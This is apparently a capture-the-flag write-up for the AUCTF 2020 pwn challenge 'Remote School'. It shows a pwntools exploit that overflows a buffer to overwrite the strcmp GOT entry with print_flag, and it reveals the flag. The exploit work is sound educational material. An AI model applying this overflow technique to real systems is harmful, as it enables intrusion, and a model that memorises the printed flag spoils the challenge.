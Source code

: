 # AUCTF 2020

## Remote School

> 960
>
> Dear Student,
>
> Due to COVID-19 concerns our curriculum will be moving completely to online courses... I know we haven't even started our school year yet so this may come as a shock. But I promise it won't be too bad! You can login at challenges.auctf.com 30013.
>
> Best, Dean of Eon Pillars
> 
> Note: ASLR is disabled for this challenge
>
> Author: nadrojisk
> 
> [online](online)

Tags: _pwn_

### Introduction

I'm a little stumped why this was the least solved pwn.


### Research

#### Checksec

```
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      PIE enabled
    RWX:      Has RWX segments
```

Basically, choose your own adventure.

PIE enabled, however the challenge server does not have ASLR enabled.

> To test without disabling ASLR systemwide type: `setarch $(uname -m) -R ./exploit.py`)
> 
> Since no ASLR and x86 (32-bit) we can assume a base process address of `0x56555000`.


#### Decompile with Ghidra

Three functions of interest.

Just need to call `print_flag`:

![](./print_flag.png)

Looks like a basic buffer overflow vulnerability that will write any value to any writable location.  Just need to find a way to call `test`:

![](./test.png)

How to call `test`:

![](./class_hacker.png)


### Exploit

#### Attack Plan

1. Attend "Hacker" class
2. Pass _the_ `test`
3. Get the flag

#### Attend "Hacker" class

```
# ./online
Welcome to your new online class!
We here, at Eon Pillars, we think Zoom is trash and prefer to have our lessions via command line!
May I get your name?
	Name: foobar
Thanks! It is nice to meet you foobar!

Well enough of that let's start class ... What should we do?
> [? for menu]: ?

~~Eon Pillars help menu~~

help: Print help menu
attend <class>: go to class
study <class>: study for class
list: list classes
stats: check stats
grades: check grades
quit: Exit Terminal

What should we do?
> [? for menu]: list classes
You have these classes:
	Algebra
	CompSci
What should we do?
> [? for menu]:
```

This may be enough info to guess `attend Hacker`, if not, try `strings`, or take a look at `cmd_attend` calling `cmd_dispatch`.

`cmd_dispatch` is passed a pointer to a table of pointers pairs.  The first pointer is to a string that is used to check for a correct command, and the second is a pointer to a function to call for that command.

`classtable`:

```
00013ec0 e0              undefined1E0h                     [0]           ?  ->  000120e0 
00013ec1 20              undefined120h                     [1]
00013ec2 01              undefined101h                     [2]
00013ec3 00              undefined100h                     [3]
00013ec4 2f              undefined12Fh                     [4]           ?  ->  0001192f
00013ec5 19              undefined119h                     [5]
00013ec6 01              undefined101h                     [6]
00013ec7 00              undefined100h                     [7]
00013ec8 e8              undefined1E8h                     [8]           ?  ->  000120e8
00013ec9 20              undefined120h                     [9]
00013eca 01              undefined101h                     [10]
00013ecb 00              undefined100h                     [11]
00013ecc 67              undefined167h                     [12]          ?  ->  00011967
00013ecd 19              undefined119h                     [13]
00013ece 01              undefined101h                     [14]
00013ecf 00              undefined100h                     [15]
00013ed0 f0              undefined1F0h                     [16]          ?  ->  000120f0
00013ed1 20              undefined120h                     [17]
00013ed2 01              undefined101h                     [18]
00013ed3 00              undefined100h                     [19]
00013ed4 9f              undefined19Fh                     [20]          ?  ->  0001199f
00013ed5 19              undefined119h                     [21]
00013ed6 01              undefined101h                     [22]
00013ed7 00              undefined100h                     [23]
```

`0x13ec0` -> `0x120e0` in the table above compares with the table below:

```
000120e0 41 6c 67 65 62 72 61 00      ds         "Algebra"
000120e8 43 6f 6d 70 53 63 69 00      ds         "CompSci"
000120f0 48 61 63 6b 65 72 00         ds         "Hacker"
```

If there is a match then the next address is called:

```
uVar2 = (**(code **)(param_2 + local_18 * 8 + 4))(local_10,local_3c);
```

Code to navigate to `class_hacker`:

```
#!/usr/bin/env python3

from pwn import *

p = process('./online')
#p = remote('challenges.auctf.com', 30013)

p.recvuntil('Name: ')
p.sendline("Fuck you. That's my name. You know why, mister? You drove a Hyundai to get here. I drove an eighty-thousand dollar BMW. THAT'S my name.")
p.recvuntil('menu]: ')
p.sendline('attend Hacker')
p.recvuntil('Welcome!\n')
```

#### Pass _the_ `test`

```
baseproc = 0x56555000
binary = ELF('online')

payload  = 2048 * b'A'
payload += p32(baseproc + binary.symbols['print_flag'])
payload += p32(baseproc + binary.got['strcmp'])
p.sendline(payload)
```

`class_hacker` just takes our input and calls `test`.  The `payload` just overflows `local_814` into `local_14` and `*local_10`.  Whatever is in `local_14` will be written to whatever `*local_10` points to.

By overwriting the `strcmp` GOT entry with the address of `print_flag`, the next time `strcmp` is called, `print_flag` is really called, and we get the flag.

Grade: A+


#### Get the flag

```
p.recvuntil('menu]: ')
p.sendline("give us the flag")
p.stream()
```

Any input will trigger `strcmp` and deliver the flag:

```
[+] Opening connection to challenges.auctf.com on port 30013: Done
[*] '/pwd/datajerk/auctf2020/remote-school/online'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      PIE enabled
    RWX:      Has RWX segments
auctf{1_hope_you_l1ked_my_g@m3_2321}
```

Flag: `auctf{1_hope_you_l1ked_my_g@m3_2321}`

